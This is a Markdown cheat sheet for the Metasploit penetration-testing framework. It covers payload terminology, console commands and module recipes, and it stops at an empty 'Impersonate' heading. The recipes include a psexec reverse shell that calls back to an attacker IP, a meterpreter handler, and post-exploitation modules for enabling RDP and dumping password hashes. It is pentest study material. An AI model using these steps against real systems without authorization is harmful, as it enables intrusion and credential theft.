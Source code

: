 ```yaml
---
title: METASPLOIT
summary: A penetration testing framework.
description: A penetration testing framework.
---
```


**[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)**

## METASPLOIT Terminology

### Non-Staged Payload

**Non-staged (Singles or Inline) payload are sent all at once.**

Example: windows/meterpreter_reverse_tcp.

### Staged Payload

**Staged payloads are sent in two steps:** an initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size.

Example: windows/meterpreter/reverse_tcp.

### Modules

* **Exploits:** Exploits.
* **Payloads:** Payloads (exploit + goal).
  * **Singles:** Self-contained payloads that do not need to download an additional component to run.
  * **Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. 
  * **Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.
* **Evasion:** Try to bypass antivirus. 
* **Auxiliary:** Supporting modules such as scanners, crawlers and fuzzers.
* **Post:** Post exploitation.

### Exploit Ranking

![METASPLOITExploitRanking.png](../attachments/METASPLOITExploitRanking.png)

Source: https://docs.metasploit.com/docs/using-metasploit/intermediate/exploit-ranking.html

## METASPLOIT Console


 > 
 > **<font color=red>msfdb init</font>**</br>
 > Initialize database.
 > 
 > **<font color=red>msfconsole</font>**</br>
 > Start metasploit console.
 > 
 > **<font color=red>db_status</font>**</br>
 > Check database connection.

 > 
 > **<font color=red>search </font>\[SERVICE_TO_EXPLOIT\]**</br>
 > Search for an exploit to use against the specified service.
 > 
 > **<font color=red>use</font> \[MODULE\]**</br>
 > Select a module.
 > 
 > **<font color=red>use auxiliary</font>**</br>
 > Select an auxiliary module. 

 > 
 > **<font color=red>info</font>**</br>
 > Display information about selected module.
 > 
 > **<font color=red>show options</font>**</br>
 > Show variables (options) of selected module.

 > 
 > **<font color=red>set</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) of selected module.
 > 
 > **<font color=red>setg</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) globaly (for all modules).
 > 
 > **<font color=red>unset</font> \[VARIABLE\] \[VALUE\]**</br>
 > Unset variable.

 > 
 > **<font color=red>exploit</font>**</br>
 > Run the exploit (**<font color=red>-j</font>** to run it in background job). **run** is an alias to exploit.

 > 
 > **<font color=red>sessions -l</font>**</br>
 > List opened sessions.
 > 
 > **<font color=red>sessions</font> 1**</br>
 > Open session 1.
 > 
 > **<font color=red>background</font>**</br>
 > Background session (Ctrl + z).

 > 
 > **<font color=red>connect</font> \[HOST\]**</br>
 > Netcat like connection.
 > 
 > **<font color=red>spool</font>**</br>
 > Write console output into a file as well the screen.

## METASPLOIT Modu

### Handler Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.

### Reverse Shell Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

### Post Exploit Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>multi/manage/shell_to_meterpreter</font>**</br>
 > Upgrade shell to a Meterpreter session.


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**</br>
 > Check exploits for privilege escalation.

### Post Exploit Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/checkvm</font>**</br>
 > Check if the machine a VM.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/manage/enable_rdp</font>**</br>
 > Try to enable RDP.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/enum_shares</font>**</br>
 > Enumerate shares.

### Post Exploit Linux


 > 
 > **<font color=red>use</font> <font color=lightblue>linux/gather/hashdump</font>**</br>
 > Dump users hashes.

## METASPLOIT Impersonate
